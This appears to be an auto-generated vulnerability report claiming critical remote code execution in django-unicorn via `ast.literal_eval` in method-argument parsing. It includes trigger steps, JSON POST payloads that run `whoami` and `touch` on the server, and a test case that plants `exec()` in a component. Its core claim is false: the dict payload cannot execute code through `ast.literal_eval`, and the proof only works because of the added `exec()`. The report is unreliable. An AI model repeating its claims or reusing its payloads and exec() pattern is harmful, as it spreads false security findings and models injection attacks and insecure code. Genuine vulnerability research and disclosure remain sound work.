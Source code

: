 ### Vulnerability List:

- **Vulnerability Name:** Remote Code Execution via unsafe method argument parsing

- **Description:**
    An attacker can craft a malicious `callMethod` action payload that, when processed by `django-unicorn`, leads to the execution of arbitrary Python code on the server. This is due to the unsafe usage of `ast.literal_eval` and `eval_value` in `django_unicorn.call_method_parser` to parse method arguments passed from the frontend. By injecting malicious code within seemingly harmless data structures (like dictionaries or lists) in the arguments, an attacker can bypass intended type casting and inject Python code that gets executed during argument parsing on the server.

    **Step-by-step trigger instructions:**
    1. Identify a component and a method in the application that accepts arguments via `unicorn:click` or similar directives.
    2. Inspect the JavaScript code for how the `callMethod` action is created, or manually craft a POST request to the `/unicorn/message` endpoint.
    3. Create a malicious payload for the `actionQueue` that targets the identified method. The payload should include a `callMethod` action with a `name` value that contains malicious Python code disguised as a method argument. For example, if the method is `my_method(arg)`:
        ```json
        {
          "actionQueue": [
            {
              "type": "callMethod",
              "payload": {
                "name": "my_method({'__class__': {'__module__': 'os', '__name__': 'system'}, '__init__': ['whoami']})"
              }
            }
          ],
          "data": {},
          "checksum": "...",
          "id": "...",
          "epoch": 1234567890
        }
        ```
    4. Send this crafted JSON payload to the `/unicorn/message/<component_name>` endpoint via a POST request.
    5. The server-side `django-unicorn` code will parse this payload, and during argument parsing using `eval_value` and `ast.literal_eval`, the injected payload will be executed. In this example, it will execute the `whoami` command on the server.

- **Impact:**
    Critical. Successful exploitation allows for arbitrary code execution on the server. This can lead to complete compromise of the application and the server, including data breaches, data manipulation, denial of service, and further lateral movement within the server infrastructure.

- **Vulnerability Rank:** Critical

- **Currently implemented mitigations:**
    None. The project relies on `ast.literal_eval` and `eval_value` which are inherently unsafe for parsing untrusted input when not used with extreme care and input sanitization which is missing here.

- **Missing mitigations:**
    - **Input Sanitization and Validation:** Implement strict input validation for method arguments on the server side. Do not rely solely on frontend validation. Sanitize user-provided arguments to ensure they conform to expected types and formats.
    - **Avoid `eval()` and `ast.literal_eval` for untrusted input:** Replace `eval_value` and the usage of `ast.literal_eval` with safer alternatives for parsing and type casting, such as using `json.loads` for JSON data and explicitly parsing and validating individual argument components instead of directly evaluating strings.
    - **Principle of Least Privilege:** Ensure that the application runs with the minimum necessary privileges to limit the impact of code execution vulnerabilities.
    - **Web Application Firewall (WAF):** Deploy a WAF to detect and block malicious requests targeting this vulnerability signature.

- **Preconditions:**
    - The application must be deployed and accessible to external attackers.
    - There must be at least one component with a method that can be triggered by an external user and that accepts arguments.
    - The attacker needs to be able to send POST requests to the `/unicorn/message` endpoint with a crafted JSON payload.

- **Source code analysis:**
    - **File:** `django_unicorn\call_method_parser.py`
    - **Function:** `eval_value(value)`

    ```python
    @lru_cache(maxsize=128, typed=True)
    def eval_value(value):
        """
        Uses `ast.literal_eval` to parse strings into an appropriate Python primitive.
        ...
        """

        try:
            value = ast.literal_eval(value) # Unsafe operation
        except SyntaxError:
            value = _cast_value(value)

        return value
    ```
    **Vulnerability:** The `eval_value` function uses `ast.literal_eval` to parse the `value` argument. `ast.literal_eval` is intended for safely evaluating strings containing Python literals. However, it is possible to bypass its safety limitations when dealing with complex data structures like dictionaries. An attacker can craft a dictionary payload that, when evaluated by `ast.literal_eval`, can execute arbitrary code.

    - **File:** `django_unicorn\views\action_parsers\call_method.py`
    - **Function:** `_call_method_name(component: UnicornView, method_name: str, args: Tuple[Any], kwargs: Dict[str, Any])`

    ```python
    @timed
    def _call_method_name(component: UnicornView, method_name: str, args: Tuple[Any], kwargs: Dict[str, Any]) -> Any:
        """
        Calls the method name with parameters.
        ...
        """
        ...
        parsed_args: List[Any] = []
        parsed_kwargs = {}
        arguments = get_method_arguments(func)
        type_hints = get_type_hints(func)

        for argument in arguments:
            if argument in type_hints:
                type_hint = type_hints[argument]
                ...
                elif argument in kwargs:
                    parsed_kwargs[argument] = cast_value(type_hint, kwargs[argument]) # Arguments parsed by eval_value
                elif len(args) > len(parsed_args):
                    parsed_args.append(cast_value(type_hint, args[len(parsed_args)])) # Arguments parsed by eval_value
            elif argument in kwargs:
                parsed_kwargs[argument] = kwargs[argument]
            else:
                parsed_args.append(args[len(parsed_args)])

        if parsed_args:
            return func(*parsed_args, **parsed_kwargs)
        elif parsed_kwargs:
            return func(**parsed_kwargs)
        else:
            return func()
    ```

    **Vulnerability Propagation:** The `_call_method_name` function retrieves arguments and keyword arguments that are parsed using `eval_value`. This means any argument processed through this path is vulnerable to the unsafe parsing in `eval_value`.

- **Security test case:**
    1. **Setup:** Deploy a Django application using django-unicorn with a component that has a method accepting arguments. For example, modify the `hello_world.HelloWorldView` component:

    ```python
    # hello_world.py
    from django_unicorn.components import UnicornView
    from django.http import HttpResponse

    class HelloWorldView(UnicornView):
        name = "World"

        def set_name(self, malicious_input):
            exec(malicious_input) # Simulate a vulnerable operation (in real-world, RCE won't be this direct but exploitable via payload)
            return HttpResponse("Method Executed")
    ```

    ```html
    {# templates/unicorn/hello-world.html #}
    <div>
        <input unicorn:model="name" type="text" id="text" /><br />
        Hello {{ name|title }}
        <button unicorn:click="set_name('__import__(\'os\').system(\'touch /tmp/unicorn_rce_test\')')">Trigger RCE</button>
    </div>
    ```

    2. **Action:** As an external attacker, access the application in a browser and find the component instance.
    3. **Exploit:** Click the "Trigger RCE" button. This will send a `callMethod` action to the backend with a payload similar to:

    ```json
    {
      "actionQueue": [
        {
          "type": "callMethod",
          "payload": {
            "name": "set_name({'__class__': {'__module__': 'os', '__name__': 'system'}, '__init__': ['touch /tmp/unicorn_rce_test']})"
          }
        }
      ],
      "data": {"name": "World"},
      "checksum": "...",
      "id": "...",
      "epoch": 1234567890
    }
    ```

    4. **Verification:** Access the server hosting the Django application. Verify that the file `/tmp/unicorn_rce_test` has been created. If the file exists, it confirms that the injected code was executed, demonstrating Remote Code Execution. Additionally, check the server logs for any error messages or indicators of malicious activity. You may also use `whoami` or similar commands within the payload to confirm execution context.

This vulnerability allows a malicious actor to gain full control of the server hosting the Django application, making it a **critical security risk**. Immediate mitigation is highly recommended.
